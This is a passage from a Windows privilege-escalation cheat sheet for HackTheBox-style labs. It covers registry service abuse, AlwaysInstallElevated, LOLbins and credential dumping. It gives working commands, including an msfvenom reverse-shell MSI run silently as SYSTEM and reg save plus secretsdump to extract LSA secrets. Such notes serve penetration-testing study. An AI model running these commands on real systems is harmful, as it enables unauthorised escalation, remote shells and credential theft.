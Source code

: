 Examples:
- EternalBlue (MS17-010)
- PrintNightmare (CVE-2021-34527)
- Token privilege escalation bugs

⚠️ Usually patched in HTB, but check on older boxes.

---

## 🧩 10. Registry Permissions
Check if you can modify service config in registry:
```
reg query HKLM\SYSTEM\CurrentControlSet\Services /s
```
If writable → change ImagePath to your payload.

---

## 🛠 11. Always Install Elevated
Check registry keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If both are 1 → you can run any MSI as SYSTEM:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

---

## 🔄 12. Abusing Binaries (LOLbins)
Many Windows binaries can be abused for escalation:
- `msiexec.exe`
- `installutil.exe`
- `regsvr32.exe`
- `rundll32.exe`
- `certutil.exe`

Reference: [LOLBAS Project](https://lolbas-project.github.io/)

---

## 🔐 13. LSA Secrets
Dump cached credentials:
```
reg save HKLM\SECURITY security
reg save HKLM\SYSTEM system
secretsdump.py -security security -system system LOCAL
```

---